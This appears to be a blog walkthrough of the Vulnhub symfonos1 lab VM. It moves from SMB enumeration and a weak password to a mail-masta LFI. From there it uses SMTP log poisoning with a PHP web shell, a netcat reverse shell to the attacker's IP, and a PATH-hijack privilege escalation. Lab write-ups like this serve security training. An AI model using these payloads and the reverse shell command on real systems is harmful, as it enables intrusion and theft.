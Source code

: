 ```yaml
---
layout: post
title: "symfonos1 - Vulnhub Boot2Root"
date: 2020-06-27
excerpt: "Walkthrough for the symfonos1 VM"
tags: [vulnhub, symfonos, symfonos1, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the first box, the easiest in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I ran `netdiscover -i eth0` to find the IP address of the machine.

![symfonos1 netdiscover](/assets/img/symfonos1-1.png)

Now that we have located the IP address of our target, we can proceed with performing an **nmap** scan to search for open ports, protocols and their versions.

![symfonos1 nmap](/assets/img/symfonos1-2.png)

Based on the scan, we can see that ssh, smtp, netbios and smb are running, along with an Apache webserver on port 80. Visiting the webpage brings us to a page with nothing special on it, just a background image.

![symfonos1 home page](/assets/img/symfonos1-3.png)

At this point, I elected to run **dirb** to enumerate the website. It came back with minimal results using the big.txt wordlist, as it just had a list of Apache's manual directories.

![symfonos1 dirb](/assets/img/symfonos1-4.png)

I next turned my attention to SMB that was running over port 445. I was able to connect as an anonymous user using **rpcclient** as shown below.

![symfonos1 rpcclient](/assets/img/symfonos1-5.png)

Running `enumdomusers` results in a user, helios, being uncovered. Running `queryuser 0x3e8` displays info about that user. `getdompwinfo` displays that the minimum characters for the password are set to 5. However before attempting to brute force the password, I wanted to enumerate the smb shares based on the result of the **nmap** scan.

![symfonos1 rpcclient info](/assets/img/symfonos1-6.png)

Next, I ran the smb-enum-shares script with nmap to enumerate smb shares.

![symfonos1 rpcclient nmap smb-enum-shares](/assets/img/symfonos1-7.png)

This showed several different shares that could be connected to anonymously **\\192.168.68.137\anonymous, \\192.168.68.137\IPC$,** and **\\192.168.68.137\print$**. There was also a **\\192.168.68.137\helios** share present that anonymous/guest access was disabled on.

At this point, I tried to connect to the shares anonymous could access to see if anything could be pilfered. This was done with **smbclient**. The anonymous share was the first to be checked. Upon connecting, there was an attention.txt file present.

![symfonos1 smbclient anonymous share](/assets/img/symfonos1-8.png)

I downloaded the file, dropped the smb connection, and read the file locally with **cat**.

![symfonos1 smbclient attention.txt](/assets/img/symfonos1-9.png)

This file lists 3 potential passwords, and we already uncovered the **helios** user earlier while running rpcclient. Let's try to connect to his share via SMB with these passwords.

![symfonos1 smbclient helios share](/assets/img/symfonos1-10.png)

Success, we were able to connect with the password of **qwerty** as helios to his directory. As shown above, there were two files in that directory we saved with **get**.

![symfonos1 research.txt todo.txt](/assets/img/symfonos1-11.png)

The **research.txt** file had info about Helios, but nothing relevant to enumerating further. The second file mentions a /h3l105 folder. Let's see what happens when we append this to the end of the website url.

![symfonos1 research.txt h3l105](/assets/img/symfonos1-12.png)

It appears that this is a wordpress site, but it is not loading completely because it's trying to access symfonos.local, lets add that to our attacking machine's host file and reload the page. This is done by running `nano /etc/hosts` and adding it as shown in the screenshot below:

![symfonos1 etc/hosts](/assets/img/symfonos1-13.png)

Once saved, reload the page again. You should now see the page properly and a login page. Next, we will use wp-scan to enumerate plugins for possible vulnerabilities.

![symfonos1 wp-scan enumerate plugins](/assets/img/symfonos1-14.png)

## Exploitation

You will come across mail-masta as one of the plugins in use. A quick Google search leads to an exploit for this on [Exploit-DB](https://www.exploit-db.com/exploits/40290).

![symfonos1 LFI exploit](/assets/img/symfonos1-15.png)

Modify the sample code and use the following url to pull a list of users on the system `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

![symfonos1 LFI etc/passwd](/assets/img/symfonos1-16.png)

Now that we are sure that LFI works, we can attempt SMTP poisoning to utilize RCE. This is accomplished with running `telnet symfonos.local 25`.

![symfonos1 smtp](/assets/img/symfonos1-17.png)

We will now send an email to Helios with a 1 line of PHP code that allows for RCE: `<?php system($_GET['c']); ?>`.

![symfonos1 smtp send](/assets/img/symfonos1-18.png)

Navigating to `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=pwd` will print the working directory after the output of helios' mail.

![symfonos1 smtp RCE](/assets/img/symfonos1-19.png)

This means we should be able to create a reverse shell, lets create a netcat listener on our attacking machine with `nc -nvlp 5555` and then navigate to `symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/sh 192.168.68.135 5555` in the web browser and press enter, this should connect to your netcat listener.

![symfonos1 website RCE](/assets/img/symfonos1-20.png)
![symfonos1 netcat connection](/assets/img/symfonos1-21.png)

Next, we will create a TTY shell with `python -c 'import pty;pty.spawn("/bin/bash")'`.

![symfonos1 python tty shell](/assets/img/symfonos1-22.png)

Then, we will use the following `find / -perm -u=s -type f 2>/dev/null` to find all the programs that run with SUID.

![symfonos1 find](/assets/img/symfonos1-23.png)

One that stands out is **/opt/statuscheck** which has a **curl** command embedded in it when reviewing the binary with `strings /opt/statuscheck`

![symfonos1 statuscheck](/assets/img/symfonos1-24.png)

We will take advantage of this by copying the bash shell into a curl binary in the temp directory and temporarily changing the $PATH variable to run this command instead of curl as shown below.

![symfonos1 root shell](/assets/img/symfonos1-25.png)

At this point you have root! Navigate to /root and run ls to list files, you should see **proof.txt**. Run `cat proof.txt` to view the contents of this file to finish the box.

![symfonos1 root proof.txt](/assets/img/symfonos1-26.png)










